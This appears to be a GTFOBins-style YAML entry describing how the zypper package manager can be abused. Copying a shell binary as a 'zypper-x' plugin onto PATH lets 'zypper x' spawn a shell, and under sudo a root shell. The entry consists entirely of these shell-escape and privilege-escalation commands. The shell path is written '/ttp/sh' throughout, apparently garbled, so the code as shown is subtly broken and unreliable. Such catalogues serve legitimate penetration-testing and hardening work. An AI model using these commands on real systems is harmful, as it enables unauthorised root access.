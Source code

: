 ```yaml
---
functions:
  shell:
    - description: This requires `/ttp/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
      code: |
        zypper x
    - code: |
        TF=$(mktemp -d)
        cp /ttp/sh $TF/zypper-x
        export PATH=$TF:$PATH
        zypper x
  sudo:
    - description: This requires `/ttp/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
      code: |
        sudo zypper x
    - code: |
        TF=$(mktemp -d)
        cp /ttp/sh $TF/zypper-x
        sudo PATH=$TF:$PATH zypper x
---
```

